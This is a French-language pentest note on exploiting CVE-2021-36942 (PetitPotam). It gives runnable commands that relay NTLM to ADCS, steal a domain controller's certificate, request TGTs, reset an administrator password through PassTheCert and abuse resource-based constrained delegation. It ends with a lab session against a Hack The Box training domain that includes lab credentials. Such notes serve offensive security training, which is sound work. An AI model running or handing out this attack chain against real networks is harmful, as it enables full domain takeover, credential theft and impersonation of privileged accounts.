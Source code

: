 ```yaml
---
public: true # set to true to make the article publishable
---
```


|  |  |
| --- | --- |
| CVE | [CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) |
| Correctif fixant la vulnérabilité | CU-2021-08 |

## Eléments nécessaires à l'exploitation

- Un ADCS doit être présent dans le réseau

## Exploitation

### Installation de l'outil

```shell
git clone git@github.com:topotam/PetitPotam.git
```

### Utilisation

Il faut connaître le nom du serveur ADCS. On peut le trouver par diverses méthodes :

- Sous Windows : `certutil –config – -ping`
- <https://www.thehacker.recipes/ad/movement/ad-cs>

```shell
# Activation du relais NTLM
sudo ntlmrelayx.py -debug -smb2support --target http://<ADCS-SERVER-FQDN>/certsrv/certfnsh.asp --adcs --template DomainController

# Exploitation
python3 PetitPotam.py <attack host IP> <Domain Controller IP>
```

On capture ensuite le certificat encodé en base 64 dans les logs de ntlmrelayx pour l'utiliser ensuite pour demander un TGT

```shell
python3 gettgtpkinit.py DOMAIN.LOCAL/DomainController$ -pfx-base64 <B64 Cert> tgt.ccache

.\Rubeus.exe asktgt /user:DomainController$ /certificate:<B64 Payload> /ptt
```

On peut ensuite finir par une attaque DCSync :

- [[Attaque DCSync depuis Linux]]
- [[Attaque DCSync depuis Windows]]

## Infos utiles

Le certificat une fois collecté en base 64 depuis ntlmrelayx peut être lu de la façon suivante :

```shell
cat cert.b64 | base64 -d > cert.pfx
sha256sum cert.pfx 
(htb) > 8806736f71db33587e684a69ccc7b683df38d31bb7d335689771ff71a34bff9f  cert.pfx
(kali)> 8806736f71db33587e684a69ccc7b683df38d31bb7d335689771ff71a34bff9f  cert.pfx
openssl x509 -in cert.pfx -text -noout

# export du certificat
openssl pkcs12 -in cert.pfx -clcerts -nokeys -out domaincontroller.crt 
# export de la clé privée (pas trouvé comment supprimer la passphrase directement)
openssl pkcs12 -in cert.pfx -nocerts -out domaincontroller.key
# suppression de la passphrase
openssl rsa -in domaincontroller.key -out domaincontroller.key # saisie de la passphrase

# informations sur le certificat
openssl x509 -in domaincontroller.crt -text
# informations sur la clé privée
openssl rsa -in domaincontroller.key -text
```

## Utilisation de PassTheCert

```shell
# Test de connection 
python passthecert.py -domain $AD_DOMAIN -dc-host $TARGET_IP -crt DC.crt -key DC.key
[*] You are logged in as: DOMAIN\DC01$

# Exploitation 1 : reset du mot de passe d'un administrateur
-target administrator -new-pass 'P@ssw0rd!'


-------------
proxychains python passthecert.py -domain 'inlanefreight.local' -dc-host 172.16.5.5 -crt /home/kali/projets/challenges/htb-academy/cpts/pivotting/active-directory/initial-enumeration/adcert/domaincontroller.crt -key /home/kali/projets/challenges/htb-academy/cpts/pivotting/active-directory/initial-enumeration/adcert/domaincontroller.key -elevate -target forend -debug -action ldap-shell

add_computer rebrec$ rebrec nospns
change_password rebrec$ rebrec



set_rbcd ACADEMY-EA-DC01$ rebrec$  # le bon je pense
> rebrec$ can now impersonate users on ACADEMY-EA-DC01$ via S4U2Proxy

# CHECK 
proxychains rbcd.py -delegate-to 'ACADEMY-EA-DC01$' -dc-ip 172.16.5.5 -action 'read' 'INLANEFREIGHT/forend:Klmcargo2'


# recherche du SPN du DC
proxychains ldapsearch -LLL -x -H ldap://172.16.5.5  -D "forend@inlanefreight.local" -W -b "dc=inlanefreight,dc=local" "servicePrincipalName=*" sAMAccountName servicePrincipalName > spns

# récupération du ST 
proxychains getST.py -spn 'cifs/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/INLANEFREIGHT' -impersonate 'forend' -dc-ip 172.16.5.5 'INLANEFREIGHT/rebrec$:rebrec' 






```

